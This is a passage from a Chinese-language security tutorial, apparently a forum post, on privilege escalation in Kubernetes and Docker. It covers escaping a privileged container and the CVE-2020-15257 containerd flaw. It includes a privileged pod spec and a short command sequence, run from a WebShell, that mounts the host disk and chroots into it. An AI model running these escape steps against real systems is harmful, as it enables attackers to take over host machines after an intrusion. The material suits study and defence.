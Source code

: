 ```php
          restartPolicy: OnFailure
```

### 权限提升

- 特权容器逃逸
- Docker漏洞
- Linux Capabilities逃逸

#### 特权容器逃逸

当容器启动加上--privileged选项时，容器可以访问宿主机上所有设备。

而K8s配置文件启用了privileged: true:

```php
spec:

containers:

- name: ubuntu

image: ubuntu:latest

securityContext:

privileged: true
```

实战案例：

通过漏洞获取WebShell，查看根目录存在.dockerenv，可通过fdisk -l查看磁盘目录，进行挂载目录逃逸:

`#Webshell下操作

fdisk -l

mkdir /tmp/test

mount /dev/sda3 /tmp/test

chroot /tmp/test bash  
`  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-7ee459b20ee29a05aa8d83e582837e5522fefee7.png)

#### Docker漏洞

这里介绍两个知名的docker逃逸漏洞。

##### CVE-2020-15257

在Containerd 1.3.9版本之前和1.4.0~1.4.2版本，使用了--host网络模式，会造成containerd-shim API暴露，通过调用API功能实现逃逸。

Host模式特点：

- 共享宿主机网络
- 网络性能无损耗
- 各容器网络无隔离
- 网络资源无法分别统计
- 端口管理困难
- 不支持端口映射
    
